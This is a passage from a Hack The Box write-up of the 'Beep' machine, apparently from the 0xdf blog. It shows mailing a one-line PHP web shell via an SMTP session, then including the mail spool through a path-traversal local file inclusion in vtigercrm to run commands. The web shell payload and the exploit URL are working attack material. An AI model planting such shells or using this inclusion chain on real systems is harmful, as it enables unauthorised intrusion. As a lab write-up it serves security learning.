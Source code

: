      -> From: 0xdf@0xdf.htb
     -> Subject: test shell
     -> Message-Id: <20210218153300.1486384@parrot>
     -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
     -> 
     -> check out this code: <?php system($_REQUEST["cmd"]); ?>
      ->                                                          
     ->                    
     -> .
    <-  250 2.0.0 Ok: queued as 5BB88D92FD                       
     -> QUIT                                                     
    <-  221 2.0.0 Bye
    === Connection closed with remote host.
    

### Webshell

Now I can read that file with the LFI at:

    view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action
    

I’ll add to get execution:`&cmd=id`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210218154253978.png) 

I can turn that into a shell, and privesc just like in method one.

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2021/02/23/htb-beep.html#webmin-path-2)